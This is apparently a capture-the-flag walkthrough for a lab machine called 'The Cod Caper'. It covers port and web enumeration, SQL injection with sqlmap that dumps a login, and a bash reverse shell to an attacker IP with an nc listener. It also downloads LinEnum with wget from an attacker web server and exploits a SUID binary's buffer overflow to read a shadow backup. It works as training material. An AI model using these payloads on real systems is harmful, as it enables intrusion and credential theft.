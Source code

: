 # The Cod Caper


<details>
  <summary>Host Enumeration</summary>

### Host Enumeration

The first step is to see what ports and services are running on the target machine.

**🔹 Recommended tool:** `nmap`

#### Useful flags:

- `-p`  
  Used to specify which port to analyze. Can also specify a range of ports, e.g. `-p 1-1000`.

- `-sC`  
  Runs default scripts on the port — useful for basic analysis of the service running on a port.

- `-A`  
  Aggressive mode — goes all out to gather as much information as possible.


---

```bash
nmap -sCV 10.10.108.49
```

``Output``

```java
Nmap scan report for 10.10.108.49
Host is up (0.53s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6d:2c:40:1b:6c:15:7c:fc:bf:9b:55:22:61:2a:56:fc (RSA)
|   256 ff:89:32:98:f4:77:9c:09:39:f5:af:4a:4f:08:d6:f5 (ECDSA)
|_  256 89:92:63:e7:1d:2b:3a:af:6c:f9:39:56:5b:55:7e:f9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 34.62 seconds
```

![image](https://github.com/user-attachments/assets/9ce2b1f0-4d29-4579-8124-88b380c49470)




  
</details>










<details>
  <summary>Web Enumeration</summary>


### Web Server Enumeration

Since the only services running are **SSH** and **Apache**, it is safe to assume that we should check out the web server first for possible vulnerabilities. One of the first things to do is to see what pages are available to access on the web server.

**🔹 Recommended tool:** `gobuster`

#### Useful flags:

- `-x`  
  Used to specify file extensions, e.g. `"php,txt,html"`.

- `--url`  
  Used to specify which URL to enumerate.

- `--wordlist`  
  Used to specify the wordlist that is appended to the URL path, e.g.:



---

```
gobuster dir -u http://10.10.108.49/ -w /home/kali/Downloads/wordlists/SecLists/Discovery/Web-Content/big.txt -x html,php,txt,bak -t 30
```

![image](https://github.com/user-attachments/assets/295ae41e-c3ef-4b2c-9536-160696262b01)




![image](https://github.com/user-attachments/assets/ba89a246-398d-4344-971d-664215e83f22)

![image](https://github.com/user-attachments/assets/d50560fb-708a-4bb3-990a-4c666232e558)


  
</details>





<details>
  <summary>Web Exploitation</summary>


### SQL Injection Testing

The admin page seems to give us a login form. In situations like this, it is always worth checking for **low-hanging fruit**. In the case of login forms, one of the first things to check for is **SQL Injection**.

**🔹 Recommended tool:** `sqlmap`

#### Useful flags:

- `-u`  
  Specifies which URL to attack.

- `--forms`  
  Automatically selects parameters from `<form>` elements on the page.

- `--dump`  
  Used to retrieve data from the database once SQL Injection is found.

- `-a`  
  Grabs just about everything from the database.



---


```
sqlmap -u http://Target_IP/administrator.php --dbs --forms
```

![image](https://github.com/user-attachments/assets/45c686fe-e118-42fe-a8ee-34d3ab3c3223)

```
sqlmap -r Request.txt -D users --tables users --dump
```

```
+------------+----------+
| password   | username |
+------------+----------+
| secretpass | pingudad |
+------------+----------+
```

![image](https://github.com/user-attachments/assets/2b9a5828-8faf-4bc8-9710-ad60c378b543)


![image](https://github.com/user-attachments/assets/7a52fbba-3378-4f87-ad45-47bffc08b505)

---

> after login

![image](https://github.com/user-attachments/assets/75a75609-2ec9-425d-8a12-a7899bf04bc5)


  
</details>










<details>
  <summary>Command Execution</summary>


### Post-Exploitation: Gaining Access

It seems we have gained the ability to run commands! Since this is my old PC, I should still have a user account. Let's run a few test commands, and then try to gain access!

---

#### Method 1: `nc` Reverse Shell

This machine has been outfitted with `nc`, a tool that allows you to make and receive connections and send data. It is one of the most popular tools to get a reverse shell.

➡ Some great places to find reverse shell payloads:  
- [HighOnCoffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/)
- [Pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

After this, you will need to do additional enumeration to find **pingu's SSH key** or **hidden password**.

---

#### Method 2: Hidden Passwords

Assuming my father hasn't modified the machine since he took over my old PC, I should still have my hidden password stored somewhere — I don’t recall though, so you'll have to find it!

**🔹 Recommended tool:** `find`  
Allows you to search for files a specific user owns.


---


```
bash -c 'bash -i >& /dev/tcp/10.8.47.102/4444 0>&1'
```

```
nc -lvnp 4444
```

![image](https://github.com/user-attachments/assets/51333772-af4e-41db-b561-9454386a80d4)

---

```
find / 2>>/dev/null | grep -i shadow
```


![image](https://github.com/user-attachments/assets/567b9ed5-4647-4b76-874a-76da2f133727)



To answer this question I've searched into the machine
the path is the following

> /var/hidden/pass


![image](https://github.com/user-attachments/assets/10eafadd-abe1-42b6-bc31-8abb5cac3202)

``password`` of pingu

```
pinguapingu
```
![image](https://github.com/user-attachments/assets/417a006d-4ade-489a-864e-ad7597a5da2d)


  
</details>



<details>
  <summary>LinEnum</summary>

### Privilege Escalation with LinEnum

`LinEnum` is a Bash script that searches for possible ways to escalate privileges. It is incredibly popular due to the sheer number of methods it checks for, and often LinEnum is one of the first things to try when you get shell access.

---

#### Methods to get LinEnum on the system

**🔹 Method 1: `scp`**

Since you have SSH access on the machine, you can use `scp` to copy files over.  
Example command:

```bash
scp /opt/LinEnum.sh pingu@10.10.10.10:/tmp
```


##🔹 Method 2: SimpleHTTPServer

> SimpleHTTPServer is a Python module that hosts a basic web server on your machine.
> Assuming the compromised machine can remotely download files, you can host LinEnum and download it.

on dir that have ``LinEnum``

```
python3 -m http.server 7777 
```

on server

```
wget http://10.8.47.102:7777/LinEnum.sh
```

---

```
chmod +x LinEnum.sh

./LinEnum.sh
```

![image](https://github.com/user-attachments/assets/250ffdea-f277-4cca-a3ba-28cc695a3eee)



  
</details>




<details>
  <summary>Pwndbg ⭕</summary>


# Simple Buffer Overflow Exploit Walkthrough

This document walks through a basic buffer overflow vulnerability to overwrite the Instruction Pointer (EIP) and control the program's execution flow.

## 1. Source Code Analysis

The vulnerability exists in the following C code, which contains a `get_input` function with a fixed-size buffer and a `shell` function that we aim to execute.

```c
#include "unistd.h"
#include "stdio.h"
#include "stdlib.h"

// This is the target function we want to execute.
void shell(){
    setuid(1000);
    setgid(1000);
    system("cat /var/backups/shadow.bak");
}

// This function is vulnerable to a buffer overflow.
void get_input(){
    char buffer[32]; // A buffer of only 32 bytes.
    scanf("%s", buffer); // No bounds checking, allowing more than 32 bytes to be written.
}

int main(){
    get_input();
}
```

The program expects 32 characters of input, but `scanf("%s", ...)` does not check the input length, creating a classic buffer overflow vulnerability.

## 2. Initial Investigation with GDB

To investigate the binary, we use GDB with the `pwndbg` plugin.

First, start GDB:
```sh
gdb /opt/secret/root
```
You should see the `pwndbg` interface initialize, indicating it's ready for debugging.

*_(Optional: You can add a screenshot of the GDB startup screen here)_*

## 3. Triggering the Vulnerability

Next, we test for the overflow by sending more data than the buffer can hold. We use the `cyclic` tool to generate a unique pattern of 50 characters. This makes it easy to determine which part of our input overwrites specific memory locations.

Run the program inside GDB with the cyclic input:
```gdb
r < <(cyclic 50)
```

The program will crash due to a **segmentation fault**. The `pwndbg` output shows the state of the registers at the time of the crash.

*_(Optional: You can add a screenshot of the GDB crash screen here, showing the overwritten EIP)_*

Notice that the **EIP** (Instruction Pointer) is overwritten with `0x6161616c`. This value is part of our cyclic input (`laaa`). Since we control EIP, we can redirect the program's execution to any location in memory, such as our `shell` function.

## 4. Calculating the Offset

The next step is to find out exactly how many characters it takes to overwrite the EIP. The unique pattern from `cyclic` allows us to calculate this offset easily.

Use `cyclic` with the `-l` flag and the value that overwrote EIP:
```sh
cyclic -l 0x6161616c
```

**Output:**
```
44
```

This result tells us that the first **44 bytes** of our input fill the buffer and overwrite other stack data, right up to the EIP. Therefore, the bytes that come *after* the first 44 will overwrite the EIP.

## 5. Conclusion

The pre-exploitation phase is complete. We have successfully identified:
1.  A buffer overflow vulnerability in the `get_input` function.
2.  That we can control the EIP register.
3.  The exact offset required to overwrite EIP is **44 bytes**.

The next step would be to craft a final exploit payload that consists of 44 bytes of padding followed by the memory address of the `shell` function.



---
---

✅ You have:

- A SUID binary: /opt/secret/root

- Source code of the binary

- A vulnerable buffer overflow (you can overwrite EIP / instruction pointer)

✅ Goal:

- Overwrite EIP to point to the shell() function and execute it to read /var/backups/shadow.bak as user pingu (UID 1000).


### 1️⃣ Open the binary in GDB with pwndbg

```
gdb /opt/secret/root
```

![image](https://github.com/user-attachments/assets/439762dc-e35f-4ce3-9143-5e760c3c40c3)


### 2️⃣ Run with cyclic input to crash it and find offset

```
r < <(cyclic 50)
```


### 3️⃣ Calculate the offset

```
cyclic -l 0x6161616c
```


### 4️⃣ Find shell() function address

```
p shell
```

You’ll get something like:

```
$1 = {<text address>} 0x080484b6
```

👉 Save that address (for example, 0x080484b6). That’s what we’ll overwrite EIP with!

### 5️⃣ Build the exploit payload

```
"A" * 44 + shell address
```

Example:

```
python3 -c 'print("A"*44 + "\xb6\x84\x04\x08")' | /opt/secret/root
```

⚠ Remember: Little-endian!
If shell = 0x080484b6, write it as \xb6\x84\x04\x08.


🛠 Summary of Commands

```
gdb /opt/secret/root
r < <(cyclic 50)
# Note crash address
cyclic -l 0x{crash address}
p shell
# Use address of shell in payload
python3 -c 'print("A"*44 + "\xb6\x84\x04\x08")' | /opt/secret/root
```

![image](https://github.com/user-attachments/assets/e6eb27f6-f59c-42e1-86b4-1634c88b4bca)

Perfect! Now that you got the Segmentation fault with the input of 50 "A"s, it means you successfully overflowed the buffer and crashed the program. 🎉

![image](https://github.com/user-attachments/assets/892ec506-dc99-4f6b-bde7-e3bdc84298b2)



  
</details>





































